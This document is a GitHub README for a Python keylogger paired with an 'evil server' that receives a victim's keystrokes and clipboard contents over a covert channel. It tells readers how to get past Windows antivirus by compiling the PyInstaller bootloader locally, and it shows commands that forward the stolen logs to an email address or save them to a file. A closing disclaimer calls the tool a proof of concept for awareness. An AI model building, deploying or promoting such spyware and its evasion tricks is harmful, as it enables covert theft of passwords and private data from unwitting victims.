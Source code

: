 
<div align="center">
    
![Screenshot_20231005_033920](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/8c3b2b16-ae6d-467b-82a3-0e8c0b89c46a)

[![License: GPL-3.0](https://img.shields.io/badge/License-GPL--3.0-blue.svg)](https://opensource.org/licenses/GPL-3.0)
    
<img src="https://img.shields.io/badge/Language%20-Python3-green.svg" style="max-width: 100%;">
<img src="https://img.shields.io/badge/Tool%20-Keylogger, Covert Channel-blue.svg" style="max-width: 100%;">
<img src="https://img.shields.io/badge/Type%20-Script-violet.svg" style="max-width: 100%;">
<img src="https://img.shields.io/badge/Target OS%20-Windows, Linux-red.svg" style="max-width: 100%;">
<img src="https://img.shields.io/badge/Hacking tool%20-teste?style=flat-square" style="max-width: 100%;">
</div>

# Evil keylogger server (Covert Channel)

* ***Feel free to modify it as you see fit and it can be improved in many ways to suit your needs.***

This project focuses on a malicious server that remotely receives keyboard logs and data saved on the victim's clipboard, emulating an illegal covert channel between the victim and the attacker. When the victim runs the keylogger, the first thing it will do is connect to the attacker's remote server and send the logs in real time.

And it has been carefully designed to present the keyboard logs in the most user-friendly way possible.

****(Remember to add your local or proxy IP address in the keylogger script)****

### Evading the antivirus (Windows 10/11):
Simple technique: Compile the PyInstaller bootloader locally using Microsoft C/C++ compiler and then use pyinstaller to compile the keylogger code.

# Optionals 

#### Send the keyboard logs to the attacker's e-mail address

`./app.py 192.168.32.34 -e smtp.gmail.com`

![Peek 12-01-2024 00-33](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/6d4b9199-5b1a-41ac-a82c-cf6d8b7bcd31)

#### Write the keystroke logs to a file

`./app.py 192.168.18.20 -f keylogs.txt`

![Peek 12-01-2024 00-34](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/b4470ef2-1f89-4823-b7d2-aa012f3a698c)

# Warning:    
> I am not responsible for any illegal use or damage caused by this tool. It primarily serves as a proof of concept and is intended to raise awareness about cybersecurity

